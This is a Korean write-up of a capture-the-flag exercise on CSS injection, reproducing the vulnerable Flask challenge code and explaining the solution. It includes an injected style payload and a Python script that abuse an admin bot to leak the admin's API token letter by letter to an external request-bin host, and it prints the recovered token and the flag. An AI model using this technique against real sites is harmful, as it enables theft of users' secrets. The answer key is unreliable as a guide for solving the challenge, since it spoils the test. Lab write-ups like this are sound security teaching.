문제는 **Exercise: CSS Injection에서 실습하는 문제입니다.** 이다.  

# 문제 코드

다음은 문제 코드다.  

```python
#!/usr/bin/python3
import hashlib, os, binascii, random, string
from flask import Flask, request, render_template, redirect, url_for, session, g, flash
from functools import wraps
import sqlite3
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.by import By
from promise import Promise

app = Flask(__name__)
app.secret_key = os.urandom(32)

DATABASE = os.environ.get("DATABASE", "database.db")

try:
    FLAG = open("./flag.txt", "r").read().strip()
except:
    FLAG = "[**FLAG**]"

ADMIN_USERNAME = "administrator"
ADMIN_PASSWORD = binascii.hexlify(os.urandom(32))


def execute(query, data=()):
    con = sqlite3.connect(DATABASE)
    cur = con.cursor()
    cur.execute(query, data)
    con.commit()
    data = cur.fetchall()
    con.close()
    return data


def token_generate():
    while True:
        token = "".join(random.choice(string.ascii_lowercase) for _ in range(8))
        token_exists = execute(
            "SELECT * FROM users WHERE token = :token;", {"token": token}
        )
        if not token_exists:
            return token


def login_required(view):
    @wraps(view)
    def wrapped_view(**kwargs):
        if session and session["uid"]:
            return view(**kwargs)
        flash("login first !")
        return redirect(url_for("login"))

    return wrapped_view


def apikey_required(view):
    @wraps(view)
    def wrapped_view(**kwargs):
        apikey = request.headers.get("API-KEY", None)
        token = execute("SELECT * FROM users WHERE token = :token;", {"token": apikey})
        if token:
            request.uid = token[0][0]
            return view(**kwargs)
        return {"code": 401, "message": "Access Denined !"}

    return wrapped_view


@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, "_database", None)
    if db is not None:
        db.close()


@app.context_processor
def background_color():
    color = request.args.get("color", "white")
    return dict(color=color)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "GET":
        return render_template("login.html")
    else:
        username = request.form.get("username")
        password = request.form.get("password")
        user = execute(
            "SELECT * FROM users WHERE username = :username and password = :password;",
            {
                "username": username,
                "password": hashlib.sha256(password.encode()).hexdigest(),
            },
        )

        if user:
            session["uid"] = user[0][0]
            session["username"] = user[0][1]
            return redirect(url_for("index"))

        flash("Wrong username or password !")
        return redirect(url_for("login"))


@app.route("/logout")
@login_required
def logout():
    session.clear()
    flash("Logout !")
    return redirect(url_for("index"))


@app.route("/register", methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template("register.html")
    else:
        username = request.form.get("username")
        password = request.form.get("password")

        user = execute(
            "SELECT * FROM users WHERE username = :username;", {"username": username}
        )
        if user:
            flash("Username already exists !")
            return redirect(url_for("register"))

        token = token_generate()
        sql = "INSERT INTO users(username, password, token) VALUES (:username, :password, :token);"
        execute(
            sql,
            {
                "username": username,
                "password": hashlib.sha256(password.encode()).hexdigest(),
                "token": token,
            },
        )
        flash("Register Success.")
        return redirect(url_for("login"))


@app.route("/mypage")
@login_required
def mypage():
    user = execute("SELECT * FROM users WHERE uid = :uid;", {"uid": session["uid"]})
    return render_template("mypage.html", user=user[0])


@app.route("/memo", methods=["GET", "POST"])
@login_required
def memopage():
    if request.method == "GET":
        memos = execute("SELECT * FROM memo WHERE uid = :uid;", {"uid": session["uid"]})
        return render_template("memo.html", memos=memos)
    else:
        memo = request.form.get("memo")
        sql = "INSERT INTO memo(uid, text) VALUES(:uid, :text);"
        execute(sql, {"uid": session["uid"], "text": memo})
    return redirect(url_for("memopage"))


# report
@app.route("/report", methods=["GET", "POST"])
def report():
    if request.method == "POST":
        path = request.form.get("path")
        if not path:
            flash("fail.")
            return redirect(url_for("report"))

        if path and path[0] == "/":
            path = path[1:]

        url = f"http://127.0.0.1:8000/{path}"
        if check_url(url):
            flash("success.")
        else:
            flash("fail.")
        return redirect(url_for("report"))

    elif request.method == "GET":
        return render_template("report.html")


def check_url(url):
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)

        driver_promise = Promise(driver.get("http://127.0.0.1:8000/login"))
        driver_promise.then(
            driver.find_element(By.NAME, "username").send_keys(str(ADMIN_USERNAME))
        )
        driver_promise.then(
            driver.find_element(By.NAME, "password").send_keys(ADMIN_PASSWORD.decode())
        )
        driver_promise = Promise(driver.find_element(By.ID, "submit").click())
        driver_promise.then(driver.get(url))

    except Exception as e:
        driver.quit()
        return False
    finally:
        driver.quit()
    return True


# API
@app.route("/api/me")
@apikey_required
def APIme():
    user = execute("SELECT * FROM users WHERE uid = :uid;", {"uid": request.uid})
    if user:
        return {"code": 200, "uid": user[0][0], "username": user[0][1]}
    return {"code": 500, "message": "Error !"}


@app.route("/api/memo")
@apikey_required
def APImemo():
    memos = execute("SELECT * FROM memo WHERE uid = :uid;", {"uid": request.uid})
    if memos:
        memo = []
        for tmp in memos:
            memo.append({"idx": tmp[0], "memo": tmp[2]})
        return {"code": 200, "memo": memo}

    return {"code": 500, "message": "Error !"}


# For Challenge
def init():
    execute("DROP TABLE IF EXISTS users;")
    execute(
        """
        CREATE TABLE users (
            uid INTEGER PRIMARY KEY,
            username TEXT NOT NULL UNIQUE,
            password TEXT NOT NULL,
            token TEXT NOT NULL UNIQUE
        );
    """
    )

    execute("DROP TABLE IF EXISTS memo;")
    execute(
        """
        CREATE TABLE memo (
            idx INTEGER PRIMARY KEY,
            uid INTEGER NOT NULL,
            text TEXT NOT NULL
        );
    """
    )

    # Add admin
    execute(
        "INSERT INTO users (username, password, token)"
        "VALUES (:username, :password, :token);",
        {
            "username": ADMIN_USERNAME,
            "password": hashlib.sha256(ADMIN_PASSWORD).hexdigest(),
            "token": token_generate(),
        },
    )

    adminUid = execute(
        "SELECT * FROM users WHERE username = :username;", {"username": ADMIN_USERNAME}
    )

    # Add FLAG
    execute(
        "INSERT INTO memo (uid, text)" "VALUES (:uid, :text);",
        {"uid": adminUid[0][0], "text": "FLAG is " + FLAG},
    )


with app.app_context():
    init()

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8000)
```

## 1. /

  

**index.html** 를 렌더링

## 2. /login

  

**username**, **password** 를 입력해서 로그인하는 곳  

  

잘못된 아이디나 비밀번호를 입력하면 다음과 같이 안내 문구도 나온다.

## 3. /logout

**session** 을 초기화해서 로그아웃함

## 4. /register



**username**, **password** 를 입력해서 새로운 계정을 만든다.  
이 때, 8자리 길이의 **랜덤 token** 도 만들어진다.

## 5. /mypage

  

현재 로그인한 계정의 정보(**UID**, **username**, **API Token**) 을 볼 수 있다.

## 6. /memo

  

위와 같이 **원하는 문자를 입력해서 메모**한다.  

  

위와 같이 메모를 하면 아래에 표시된다.

## 7. /report

  

위와 같이 path 를 입력해서(혹은 path 쿼리로 전달해서) ``http://127.0.0.1:8000/{path}`` 로 이동한다.

## 8. /api/me

전송된 API 의 계정 정보를 가져오는 기능을 하는 것 같다.

## 9. /api/memo

전송된 API 의 계정에서 적은 메모를 가져오는 기능을 하는 것 같다.

# 풀이과정

```python
    # Add FLAG
    execute(
        "INSERT INTO memo (uid, text)" "VALUES (:uid, :text);",
        {"uid": adminUid[0][0], "text": "FLAG is " + FLAG},
    )
```

문제 코드에서 아랫부분에 **init()** 을 보면 **user**, **memo** 를 전부 초기화하고 **admin** 계정을 추가하는 것을 알 수 있다.  

그리고 위의 코드처럼 **flag** 를 memo 한 것을 알 수 있다.  

또한 **/memo** 에서 새로운 계정(peter)으로 로그인 했는데 보이지 않는 것을 봐서 **admin 으로 로그인**해야 flag 를 볼 수 있을 것이라고 추정할 수 있다.  

그러나 admin 의 비밀번호는 무작위로 구성된 32자리이므로, 비밀번호를 알아내는 것은 힘들다. 따라서 **/api/memo** 를 통해 admin API 를 전송하면 될 것이다.  

여기서부터 푸는 게 정말 어려웠는데, 결국에 이 문제의 키워드는 **CSS Injection** 이여서 CSS Injection 이 발생할만한 부분(``<style>`` 등)을 찾아봤다.  

  

```html

```

이번 문제의 html 문서가 너무 많았는데, 결국 모든 html 파일이 **base.html** 을 상속받았다.  

그래서 base.html 을 봤는데, 다음과 같은 코드가 있었다.  

```html
    <style>
      body{
        background-color: {{ color }};
      }
    </style>
```

CSS Injection 에서 공부한 예시였다.  

그래서 이 부분을 이용해 해결할 수 있을 것이라고 생각했다.  

```python
@app.context_processor
def background_color():
    color = request.args.get("color", "white")
    return dict(color=color)
```

그리고 main.py 를 보던 중, 뭔가 CSS 와 관련있어보이는 코드를 찾았다.  

이 코드에 대해 알아보니, **color 를 인자(쿼리)** 로 받아서 **color 에 그 값을 넣겠다는 것**을 의미한다고 한다.  

즉, 위에서 봤던 base.html 의 ``<style>`` 부분에 색깔을 우리가 지정할 수 있다는 것이다.  

  

``http://127.0.0.1:8000/?color=blue`` 를 통해 위와 같이 배경색을 파란색으로 바꿀 수 있다.  

이렇게 CSS Injection 을 적용할 수 있을 것을 알 수 있고, 다음과 같이 CSS Injection 에서 **IP Ping Back** 을 할 수 있다.  

  

  

현재 mypage 에서 API Token 이 **y** 로 시작하고, API Token 이 나오는 곳의 id 가 **InputApitoken** 이다.  

따라서 이를 이용해 IP Ping Back 을 할 수 있다.

``http://127.0.0.1:8000/mypage?color=red; } input[id=InputApitoken][value^=y] { background: url(https://orfpard.request.dreamhack.games) ``

위와 같이 요청을 하면, 아래와 같이 CSS Injection 이 될 것으로 추측할 수 있다.

```html
    <style>
      body{
        background-color: red; } input[id=InputApitoken][value^=y] { background: url(https://orfpard.request.dreamhack.games) ;
      }
    </style>
```

  

  

요청을 보냈을 때 CSS Injection 이 적용되어서 배경색이 red 인 것을 알 수 있다.  

또한 요청이 온 것을 확인할 수 있다.  

```python
def token_generate():
    while True:
        token = "".join(random.choice(string.ascii_lowercase) for _ in range(8))
        token_exists = execute(
            "SELECT * FROM users WHERE token = :token;", {"token": token}
        )
        if not token_exists:
            return token
```

위의 코드를 통해 token 은 영소문자 8자리인 것을 알 수 있고, 위의 CSS Injection 을 통해 admin 의 API Token 8자리를 알아내면 된다고 생각했다.  

그러나 여기서 admin 으로 로그인 된 상태가 아니면, 어떻게 CSS Injection 을 할 수 있을 지 감이 잡히지 않았다.  

그래서 여기에서 다른 분들이 쓴 풀이를 봤는데, 내가 놓친 취약점이 다음과 같이 있었다.  

```python
        driver_promise = Promise(driver.get("http://127.0.0.1:8000/login"))
        driver_promise.then(
            driver.find_element(By.NAME, "username").send_keys(str(ADMIN_USERNAME))
        )
        driver_promise.then(
            driver.find_element(By.NAME, "password").send_keys(ADMIN_PASSWORD.decode())
        )
        driver_promise = Promise(driver.find_element(By.ID, "submit").click())
```

위의 **/report** 에서 path 를 입력하고 이동할 때 **check_url()** 을 통해 **admin** 으로 로그인한다고 한다.  

그래서 위에서 사용한 CSS Injection 을 /report 에서 요청하면 된다고 한다.

# Exploit

일단 request 를 많이 해야하기 때문에, 파이썬으로 request 를 이용하면 될 것 같다고 생각했다.(약간 NoSQL Injection 푸는 느낌)  

```python
import requests
import string

# 한 번 돌리면, request bin 에서 한 글자 가져와서 API 에 넣고 다시 실행
# 이 과정을 8번 반복

# API : 현재까지 찾은 API
API = ""

url = "http://host3.dreamhack.games:18689/api/memo"
headers = {'API-KEY' : API}

if len(API) == 8:
    response = requests.get(url, headers=headers)
    print(response.text)
else:
    data = {'path': ''}

    # 가능한 문자를 하나씩 가져옴
    for j in string.ascii_lowercase:
        url = "http://host3.dreamhack.games:18689/report"
        path = "mypage?color=red; } input[id=InputApitoken][value^=" + API + j + "] { background: url(https://yynstiu.request.dreamhack.games?data=" + API + j + ");"
        data['path'] = path
        response = requests.post(url, data=data)
        print(f"현재 문자 : {j}, 응답 코드 : {response.status_code}")

    print(f"현재 API 길이 : {len(API)}, API : {API}")
```

위의 코드를 돌리면, 한 개의 API 문자를 얻을 수 있다.(차례대로)  

  

위와 같이 **data** 쿼리에 현재까지 알아낸 API 를 넣도록 했다.  
결론적으로 이렇게 IP Ping Back 를 하면, 요청이 오므로 이를 반복해서 admin 의 API 를 얻을 수 있다.  

  

  

그래서 8개의 request 를 확인할 수 있고, 다음과 같이 admin 의 API 인 **zrnqkuoz** 를 얻을 수 있다.(API 는 매번 다름)  

  

admin 의 API 를 **/api/memo** 로 보내서 GET 하면, flag 를 다음과 같이 얻을 수 있다.  

따라서 정답은 **DH{a036f98c93acba0a04657ec6a6080d0a771a3d24}** 이다.
